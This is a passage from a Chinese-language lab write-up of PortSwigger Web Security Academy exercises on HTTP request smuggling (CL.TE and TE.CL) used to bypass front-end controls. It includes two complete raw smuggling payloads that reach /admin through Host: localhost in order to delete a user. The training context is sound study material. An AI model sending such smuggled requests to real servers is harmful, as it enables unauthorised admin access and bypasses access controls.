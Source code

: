 可以了。

倒回去看一眼官方的解析，因为我觉得我那个用`/`和`/login`进去就很离谱。

官方进的是`/admin`，果然。

官方说的是第二个请求的`Host`和第一个走私的`Host`冲突（两个请求是拼在一起的）。

那我尝试将第二个请求的`Host`删掉。把第二个的`Host`删除之后，发现过不了前端了。

那还是用官方的方法，把第二个请求当成第一个请求的请求头。

```http
POST /login HTTP/1.1
Host: acaf1f781f41c7b181735f0a007e00f5.web-security-academy.net
Content-Length: 69
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

POST /admin HTTP/1.1
Host: localhost
Content-Length: 111

x=
```

### 7. Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

这下漏洞是TE.CL。还是要删除carlos。

吸取上一题的教训，这次用上了`localhost`，并且避免了`Host`冲突。

```http
POST /login HTTP/1.1
Host: ac441f131eb46bf180d01c2800da00dd.web-security-academy.net
Content-Length: 4
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

3f
POST /admin HTTP/1.1
Host: localhost
Content-Length: 111

x
0


```

后面就是正常的删除账号。

我一开始还用了这个
